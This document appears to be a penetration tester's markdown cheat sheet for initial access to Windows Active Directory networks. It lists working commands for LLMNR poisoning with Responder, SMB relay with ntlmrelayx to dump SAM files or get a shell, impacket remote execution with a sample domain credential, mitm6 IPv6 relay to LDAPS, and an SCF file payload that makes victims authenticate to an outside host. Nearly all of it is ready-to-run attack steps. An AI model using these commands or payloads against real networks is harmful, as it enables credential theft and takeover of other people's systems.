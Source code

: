 # Initial Attack Vectors

## LLMNR Poisoning
- `responder -I <INTERFACE_NAME> -dwv`


## SMB Relay

#### Prerequisite
- smb signing must be disabled on the target (by default is disable on client windows and enable on server windows)
- relayed user credentials must be admin on target machine

#### Check if smb signing is off on the targets:
- `nmap --script=smb2-security-mode.nse -p445 192.168.189.0/24`

#### Steps for this attack:
1. edit `responder.conf` and turn off smb and http services
2. run responder : `responder -I <INTERFACE_NAME> -dwv`
3. Put targets ip address in targets.txt file
4. run `ntlmrelayx.py -tf targets.txt -smb2support`
5. it will capture SAM file of the target machine

- Note : using `-i` with `ntlmrelayx.py` will give an interactive shell

#### Gaining shell access

```bash
impacket-psexec kernel.local/aliakbari:p@ssword1@192.168.127.242

impacket-smbexec kernel.local/aliakbari:p@ssword1@192.168.127.242

impacket-wmiexec kernel.local/aliakbari:p@ssword1@192.168.127.242
```

## IPv6 Attacks
- Will enumerate the DC for good information
- Can add a normal user to DC with admin credentials

1. `mitm6 -i eth1 -d kernel.local`
2. `impacket-ntlmrelayx -6 -t ldaps://192.168.127.248 -wh fakewpad.kernel.local -l lootme`
3. Wait for authentication or reboot a system

## SCF Files 

[Here](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/)

```text
[Shell]
Command=2
IconFile=\\X.X.X.X\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```
